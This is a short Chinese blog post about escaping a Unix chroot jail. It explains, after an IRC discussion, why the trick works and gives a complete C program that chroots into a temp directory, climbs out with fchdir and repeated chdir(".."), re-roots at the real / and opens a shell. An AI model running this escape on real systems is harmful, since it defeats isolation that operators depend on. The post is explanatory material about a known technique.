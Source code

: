 #TITLE: 脱离chroot的枷锁
#TAGS: unix-like

今天 `#ubuntu-cn@freenode` 中 `Kandu` 提到 `chroot` 限定的根是可以脱离的：`http://www.bpfh.net/simes/computing/chroot-break.html`。

`Kandu` 说，造成这种现象可能的原因是由于使用了 `fchdir`，不能比较目录，只能比较 `inode`。本来改变当前目录时，如果碰到 `cwd` 和 `root` 目录相同则不做变动，但 `cwd` 在 `root` 目录（即 `tempdir`）之上，所以不会碰到相等的情况，于是 `cwd` 能一直往上回溯，直到内核加载时 `root` 的 `/`。

我也尝试写一份：

    #include <fcntl.h>
    #include <stdlib.h>
    #include <sys/stat.h>
    #include <sys/types.h>
    #include <unistd.h>
    
    int main(void)
    {
        int fd = open(".", O_RDONLY), i;
        mkdir("tempdir", 0755);
        if (fd == -1) return 1;
        if (chroot("tempdir") == -1) return 1;
        if (fchdir(fd) == -1) return 1;
        for (i = 0; i < 1024; i++)
            chdir("..");
        if (chroot(".") == -1) return 1;
        system("sh");
    }

明当远离，不知所言。
